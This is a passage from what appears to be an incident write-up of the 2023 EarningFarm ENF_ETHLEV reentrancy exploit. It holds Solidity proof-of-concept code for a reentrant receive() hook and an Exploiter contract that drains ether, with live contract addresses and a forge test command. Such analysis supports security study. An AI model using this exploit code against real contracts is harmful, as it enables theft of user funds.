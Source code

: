 ```solidity
        WETH.transfer(address(Pair), fee1 + amount); 
        emit log_named_decimal_uint("[*] Attacker's total WETH after payback flashloan", WETH.balanceOf(address(this)), WETH.decimals());
    }       

    receive() external payable {
        if (msg.sender == Controller) {
            ENF_ETHLEV.transfer(address(exploiter), ENF_ETHLEV.balanceOf(address(this))-1000);
        }
       
    }
```

#### **receive()**

This is the crucial point where the attacker implements the reentrancy. When the Controller attempts to transfer funds to the attacker's contract, the attacker's "receive" function reentrant the contract's "transfer" function, transferring away the LP tokens.

```solidity
    receive() external payable {
        if (msg.sender == Controller) {
            ENF_ETHLEV.transfer(address(exploiter), ENF_ETHLEV.balanceOf(address(this))-1000);
        } 
    }
```

#### **contract Exploiter**

This is the attacker's other contract, which, upon receiving the LP tokens, proceeds to withdraw the corresponding share of ether from ENF\_ETHLEV.

```solidity
/**
 * Contract address: 0xcfd26fe5fe6028539802275c1cc6e9325aa2e3b7
 */
contract Exploiter {
    IENF_ETHLEV ENF_ETHLEV = IENF_ETHLEV(0x5655c442227371267c165101048E4838a762675d);
    function withdraw() external {
        ENF_ETHLEV.approve(address(ENF_ETHLEV), type(uint).max);
        uint256 assetsAmount = ENF_ETHLEV.convertToAssets(ENF_ETHLEV.balanceOf(address(this)));
        ENF_ETHLEV.withdraw(assetsAmount, address(this));
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {}
}
```

#### **Implementation**

```markdown
forge test --contracts ./test/20230809_EarningFram_exp.t.sol -vvv
```
